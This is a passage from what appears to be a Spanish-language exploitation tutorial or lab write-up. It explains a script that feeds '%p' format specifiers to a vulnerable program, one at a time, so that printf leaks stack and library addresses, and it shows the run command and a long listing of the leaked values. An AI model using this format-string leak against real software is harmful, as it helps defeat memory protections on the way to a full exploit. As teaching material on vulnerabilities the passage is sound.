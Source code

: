 **¿Qué hace el script?**

1. Abre el programa vulnerable y le envía varios `%p` (uno por vez).
2. `printf` devuelve la dirección de memoria de cada `%p`, y nosotros podemos leer esas direcciones.
3. Imprime esas direcciones, que pueden ser valores como `0x7f...` o `0x402051`, que nos dicen en qué parte de la memoria se encuentran ciertos datos.

```shell
cd /tmp
bash detect.sh
```

Info:

```
Iteración 1: 0x402051
Iteración 4: 0x4062b5
Iteración 5: 0x73
Iteración 7: 0x202c616c6f4800
Iteración 8: 0xa70243825
Iteración 49: 0xe25a2c6503c0ff00
Iteración 50: 0x1
Iteración 51: 0x7ffff7e0424a
Iteración 53: 0x401259
Iteración 54: 0x100000000
Iteración 55: 0x7fffffffec58
Iteración 56: 0x7fffffffec58
Iteración 57: 0x258c9c0c9d387e80
Iteración 59: 0x7fffffffec68
Iteración 60: 0x403e00
Iteración 61: 0x7ffff7ffd020
Iteración 62: 0x1b87166fd7c8e891
Iteración 63: 0x3d826b1d2b322e5c
Iteración 67: 0x7fffffffec58
Iteración 68: 0x7fffffffec58
Iteración 69: 0x9fabb2e7cb5d0400
Iteración 70: 0xd
Iteración 71: 0x7ffff7e04305
Iteración 72: 0x401259
Iteración 73: 0x403e00
Iteración 77: 0x401110
Iteración 78: 0x7fffffffec50
Iteración 81: 0x401131
Iteración 82: 0x7fffffffec48
Iteración 83: 0x38
Iteración 84: 0x1
Iteración 85: 0x7fffffffee91
Iteración 87: 0x7fffffffee9b
Iteración 88: 0x7fffffffeeab
Iteración 89: 0x7fffffffeeb7
Iteración 90: 0x7fffffffeee0
Iteración 91: 0x7fffffffeef3
Iteración 92: 0x7fffffffeefc
Iteración 93: 0x7fffffffef0a
Iteración 94: 0x7fffffffef1b
Iteración 95: 0x7fffffffef22
Iteración 96: 0x7fffffffef42
Iteración 97: 0x7fffffffef55
Iteración 98: 0x7fffffffef60
Iteración 99: 0x7fffffffef6b
Iteración 100: 0x7fffffffef73
```
